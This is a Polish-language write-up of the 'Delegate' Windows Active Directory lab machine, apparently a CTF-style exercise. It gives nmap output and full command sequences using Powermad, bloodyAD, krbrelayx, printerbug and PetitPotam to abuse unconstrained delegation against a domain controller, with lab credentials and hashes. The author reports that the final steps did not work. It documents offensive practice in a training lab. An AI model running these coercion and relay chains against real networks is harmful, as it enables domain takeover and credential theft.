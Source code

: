 # Delegate
Windows,Medium, created by **geiseric**

![image](https://github.com/user-attachments/assets/46b6bfe1-3683-44fd-9c68-619751118123)

```
nmap -Pn -v -p- --version-all -oA nmapFULL --max-rate 1500 -A 10.10.113.221
sudo nmap -sU -Pn -A -F -v -oA nmaUDP --max-rate 1500 10.10.113.221
```

```
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-16 07:36:44Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: delegate.vl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: delegate.vl0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49685/tcp open  msrpc         Microsoft Windows RPC
49690/tcp open  msrpc         Microsoft Windows RPC
49695/tcp open  msrpc         Microsoft Windows RPC
57550/tcp open  msrpc         Microsoft Windows RPC
```

![{BCE7DE18-9F41-4EA6-B563-6257377F797B}](https://github.com/user-attachments/assets/a021818e-5d13-413b-9272-2a69d20978bc)


null session nic, ale `guest` coś tam pokazuje.

![{29BC4967-6DF5-4C2C-92C7-A866C0AA6758}](https://github.com/user-attachments/assets/bfd71930-f185-4ee5-8f0f-4b7b94e16e20)

![{BC874D84-D444-4D21-B4BC-01EAA31990F2}](https://github.com/user-attachments/assets/46a649f5-17bc-4af2-ae64-eb46b048604e)

![{D7DDE799-BED0-42E6-8B59-7087330AB659}](https://github.com/user-attachments/assets/9f3f78f7-4b50-4814-8fd4-52148e65c3e0)

![{9D575507-E973-49DD-960E-F92EB01C0485}](https://github.com/user-attachments/assets/6ac53780-6791-4196-9e9d-726174e11b76)

hmmmm. Zaskoczyli xD

![{4124E57C-BEDB-4EB2-BCB0-D5C1CF8495CD}](https://github.com/user-attachments/assets/7097d62c-8b56-4ce8-8f5f-647bdce9a0cc)

to mamy naszą A.Briggs.

![{5EEA8349-3920-44B8-87C9-04F9F16DC7B6}](https://github.com/user-attachments/assets/7f523a51-c3a0-472e-8d49-523e415d5249)

![{AB91B6CC-2912-4CD0-8DD4-CCED4C71B9DB}](https://github.com/user-attachments/assets/876f7fc8-e562-420c-b040-38b29fbc8549)

musiałem force po brakue ssl puścić, bo nie śmigało.

```
certipy-ad find -u A.Briggs -p 'P4ssw0rd1#123' -dc-ip 10.10.113.221 -scheme ldap -old-bloodhound
bloodhound-python -d 'delegate.vl' -u 'A.Briggs' -p 'P4ssw0rd1#123' -ns 10.10.113.221 -dc DC1.delegate.vl -c all
```

![{088864BF-B242-434A-B4D9-751C9C292FB6}](https://github.com/user-attachments/assets/8220ff22-4894-4f43-8380-7dac7e6f1c94)

o marnuję czas. Świetnie ;)

![{287534F0-DD59-4EE2-8C34-365D29237F5B}](https://github.com/user-attachments/assets/006f9af9-4494-4722-b996-a801b8e5c007)

wygląda jak easy, a nie medium, ale zobaczmy.
z ciekawości użyłem obu tooli, ale zostanę przy pierwszym.

![{1DFA3DDE-2025-4795-A27F-C81A11BF00AF}](https://github.com/user-attachments/assets/2ec8abf5-5ba6-4be6-b8d1-7ab455dd0beb)

![hash](https://github.com/user-attachments/assets/5fc0c5cd-040b-4c4f-a686-91e07867f2d6)

Dobra mamy wjazd po winrm

![{9C5B3579-44FB-483D-9CE2-7DBE4C1B84CF}](https://github.com/user-attachments/assets/c5b8a012-2f91-49f7-9b98-c29effc08042)

ciekawe rzeczy to `delegation admins` oraz `SeEnableDelegationPrivilege`.
Na wiki dostajemy 2 linki
[https://www.netspi.com/blog/technical-blog/network-penetration-testing/machineaccountquota-is-useful-sometimes/](https://www.netspi.com/blog/technical-blog/network-penetration-testing/machineaccountquota-is-useful-sometimes/)
[https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/](https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/)

zatem co potrzebujemy
```
https://github.com/Kevin-Robertson/Powermad.git
https://github.com/dirkjanm/krbrelayx.git
```

![{24481739-7BE9-43F6-86D5-39670378D556}](https://github.com/user-attachments/assets/9198822a-1d5d-4ab5-a7e8-4f8519f81e05)

```
. .\Powermad.ps1
New-MachineAccount -MachineAccount PWNED -Password $(ConvertTo-SecureString 'Password1!' -AsPlainText -Force)
Set-MachineAccountAttribute -MachineAccount pwned -Attribute useraccountcontrol -Value 528384
Set-MachineAccountAttribute -MachineAccount pwned -Attribute ServicePrincipalName -Value HTTP/PWNED.delegate.vl -Append
Get-MachineAccountAttribute -MachineAccount pwned -Attribute ServicePrincipalName -Verbose
```

![{723A0705-CA3A-457D-9B3C-C88EF9CD5BA1}](https://github.com/user-attachments/assets/f9209860-1f5a-4e09-b656-a1149e712a11)

```
python3 dnstool.py -u 'delegate.vl\pwned$' -p 'Password1!' -r PWNED.delegate.vl -d 10.8.4.124 --action add -dns-ip 10.10.126.37 DC1.delegate.vl
python3 printerbug.py delegate.vl/'PWNED$'@dc1.delegate.vl PWNED.delegate.vl
python3 krbrelayx.py -hashes :7FACDC498ED1680C4FD1448319A8C04F
```

![{BB64C83E-996F-4B10-91B7-C5530CFC56C4}](https://github.com/user-attachments/assets/4deda0bb-7d63-4a92-a957-99262eff1191)

- i to wszystko mi nie działa xDDD
- próbuję inną metodą (reset machine).


![{51322923-0381-4E29-B848-1FB96EA9AEEE}](https://github.com/user-attachments/assets/ca9c464b-5958-4afc-9159-67b6ab828d8c)

```
impacket-addcomputer -dc-ip 10.10.114.230 -computer-pass 'Password1!' -computer-name PWNED delegate.vl/N.Thompson:'KALEB_2341'
python3 krbrelayx/dnstool.py -u 'delegate.vl\PWNED$' -p 'Password1!' -r PWNED.delegate.vl -d 10.8.4.124 --action add DC1.delegate.vl -dns-ip 10.10.114.230            
python3 krbrelayx/dnstool.py -u 'delegate.vl\PWNED$' -p 'Password1!' -r PWNED.delegate.vl -d 10.8.4.124 --action add DC1.delegate.vl -dns-ip 10.10.114.230
bloodyAD -u 'N.Thompson' -d 'delegate.vl' -p 'KALEB_2341' --host 'DC1.delegate.vl' add uac 'PWNED$' -f TRUSTED_FOR_DELEGATION
```

![{01ED57C9-C436-42A6-8ACC-49087B7D106E}](https://github.com/user-attachments/assets/96fc9871-7769-4113-966d-74cde2cbcd0f)

```
python3 krbrelayx/addspn.py -u 'delegate.vl\N.Thompson' -p 'KALEB_2341' -s 'cifs/PWNED.delegate.vl' -t 'PWNED$' -dc-ip 10.10.114.230 DC1.delegate.vl --additional
python3 krbrelayx/addspn.py -u 'delegate.vl\N.Thompson' -p 'KALEB_2341' -s 'cifs/PWNED.delegate.vl' -t 'PWNED$' -dc-ip 10.10.114.230 DC1.delegate.vl             
python3 krbrelayx/addspn.py -u 'delegate.vl\N.Thompson' -p 'KALEB_2341' -q -t 'PWNED$' -dc-ip 10.10.114.230 DC1.delegate.vl                               
```


![{8C620539-0EF4-42BB-AD89-3CE704ACEEC8}](https://github.com/user-attachments/assets/1d09fc3f-efb2-4d04-9eb9-73ec24727ff2)


```
python3 PetitPotam/PetitPotam.py -u 'PWNED$' -p 'Password1!' PWNED.delegate.vl 10.10.114.230
```

![{1E5AB2B6-98AA-47BC-9B31-778784C75683}](https://github.com/user-attachments/assets/f6c8e7b4-c22c-47ad-ac81-ff6490d4072a)

it could give as .ccache file but... it failed.

![{31C076D8-A1B4-4317-AF31-DA0CAE253100}](https://github.com/user-attachments/assets/f62e8e32-484e-48c5-a324-e592fb2f52bd)

it could works too...

## Not Working method
próbuję po raz trzeci.

tym razem haslo do DCka daję `7A21990FCD3D759941E45C490F143D5F` czyli `12345`.

Na starcie uruchamiam 
```
python3 krbrelayx/krbrelayx.py -hashes :7A21990FCD3D759941E45C490F143D5F
```
I teraz po kolei
```
impacket-addcomputer -dc-ip 10.10.88.158 -computer-pass '12345' -computer-name pwned delegate.vl/N.Thompson:'KALEB_2341'
python3 krbrelayx/dnstool.py -u 'delegate.vl\PWNED$' -p '12345' -r PWNED.delegate.vl -d 10.8.4.124 --action add DC1.delegate.vl -dns-ip 10.10.88.158
bloodyAD -u 'N.Thompson' -d 'delegate.vl' -p 'KALEB_2341' --host 'DC1.delegate.vl' add uac 'PWNED$' -f TRUSTED_FOR_DELEGATION
python3 krbrelayx/addspn.py -u 'delegate.vl\N.Thompson' -p 'KALEB_2341' -s 'cifs/PWNED.delegate.vl' -t 'PWNED$' -dc-ip 10.10.88.158 DC1.delegate.vl --additional
python3 krbrelayx/addspn.py -u 'delegate.vl\N.Thompson' -p 'KALEB_2341' -s 'cifs/PWNED.delegate.vl' -t 'PWNED$' -dc-ip 10.10.88.158 DC1.delegate.vl   
python3 krbrelayx/addspn.py -u 'delegate.vl\N.Thompson' -p 'KALEB_2341' -q -t 'PWNED$' -dc-ip 10.10.88.158 DC1.delegate.vl      
python3 krbrelayx/printerbug.py delegate.vl/PWNED$:'12345'@10.10.88.158 PWNED.delegate.vl
python3 PetitPotam/PetitPotam.py -u 'PWNED$' -p '12345' PWNED.delegate.vl 10.10.88.158
```
Iiiiiii nie działa xD

- zrobiłem 4 razy i nie rozumiem co jest źle. Zobaczyłem writeup i 1:1 robiłem

